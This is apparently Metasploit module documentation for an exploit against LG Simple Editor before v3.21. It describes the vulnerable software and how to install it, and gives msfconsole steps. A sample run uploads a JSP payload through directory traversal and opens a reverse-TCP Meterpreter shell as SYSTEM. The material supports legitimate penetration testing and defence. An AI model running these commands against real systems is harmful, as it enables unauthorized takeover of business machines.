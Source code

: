 ## Vulnerable Application

LG Simple Editor is recommended for small businesses and sports bars which require simple content
display or play-on-air via their signage. It enables easy new content creation by simplifying processes,
and immediate playback on signage.

This Metasploit module exploits broken access control and directory traversal
vulnerabilities in LG Simple Editor software for gaining code execution.
The vulnerabilities exists in versions of LG Simple Editor prior to v3.21.
By exploiting this flaw, an attacker can upload and execute a malicious JSP
payload with the SYSTEM user permissions.

## Testing
For installing the vulnerable version follow the steps below,
1. Download the installation file of the vulnerable software
[here](https://www.lg.com/us/business/display-solutions/supersign-w-lite/downloads/LGSimpleEditor_setup_v3_21_0.exe.zip)
2. Follow the installation steps.

After these steps, the LG Simple Editor service should be accessible on port 8080.

## Verification Steps

1. msfconsole
2. Do: `use exploit/windows/http/lg_simple_editor_rce`
3. Do: `set RHOST [IP]`
4. Do: `check`

## Options

## Scenarios

```
msf > use exploit/windows/http/lg_simple_editor_rce
[*] Using configured payload windows/meterpreter/reverse_tcp
msf exploit(windows/http/lg_simple_editor_rce) > set rhosts 192.168.56.109
rhosts => 192.168.56.109
msf exploit(windows/http/lg_simple_editor_rce) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf exploit(windows/http/lg_simple_editor_rce) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version: 3.21.0
[*] Uploading JSP payload...
[+] Payload uploaded successfully
[+] /nvFIE_original.bmp -> /nvFIE.jsp copy successful.
[*] Triggering payload...
[*] Sending stage (175686 bytes) to 192.168.56.109
[+] Deleted ./webapps/simpleeditor/nvFIE.jsp
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.109:50097) at 2023-09-01 03:44:31 +0200

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo 
Computer        : DESKTOP-LB6UGKE
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > 

```
